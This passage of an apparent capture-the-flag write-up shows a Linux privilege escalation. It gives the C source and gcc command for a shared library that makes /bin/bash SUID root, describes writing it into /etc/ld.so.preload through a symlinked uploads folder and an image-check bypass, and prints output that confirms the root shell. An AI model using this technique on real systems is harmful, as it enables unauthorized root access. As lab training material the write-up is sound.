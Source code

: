 Looking for files we can exploit, we come across `/etc/ld.so.preload`, which is a configuration file in Linux that specifies shared libraries to be loaded before others when programs are executed. It also works with `SUID` binaries, allowing us to load and run our library as the `root` user.

To abuse this, we first need to create a shared library that will set the `SUID` bit for `/bin/bash`.

```console
beth@london:~$ cat /tmp/pe.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unlink("/etc/ld.so.preload");
    setgid(0);
    setuid(0);
    system("/bin/chmod +s /bin/bash");
}
beth@london:~$ gcc -fPIC -shared -o /tmp/pe.so /tmp/pe.c -nostartfiles
beth@london:~$ ls -la /tmp/pe.so
-rwxrwxr-x 1 beth beth 6456 Sep 26 11:21 /tmp/pe.so
```

Ensuring that `/home/beth/uploads` points to the `/etc` directory.

```console
beth@london:~$ ls -la uploads
lrwxrwxrwx 1 beth beth 4 Sep 26 10:37 uploads -> /etc
```

Now, all we have to do is write `/tmp/pe.so` to the `/etc/ld.so.preload` file.

As mentioned, we can prepend a valid image to our payload to bypass the `verify()` check. We will use the `PPM` format, as it allows us to create an image that both bypasses the filter and is small in size, without including any special characters that could cause errors and we will use `ld.so.preload` as our filename.

As we can see, we are successful with this.

![Web 8080 Unintended Three](web_8080_unintended_three.webp){: width="1100" height="500" }

Now, running any `SUID` binary, in this case `ping`, we can see the system trying to load the libraries specified in `/etc/ld.so.preload`. First, it attempts to load our prepended data as libraries, then loads the `/tmp/pe.so` library. After executing the program, we can verify that our library was loaded and run by checking the permissions on the `/bin/bash` binary.

```console
beth@london:~$ ping -c 1 127.0.0.1
ERROR: ld.so: object 'P6' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '1' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
ERROR: ld.so: object '1' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.018 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.018/0.018/0.018/0.000 ms
beth@london:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```
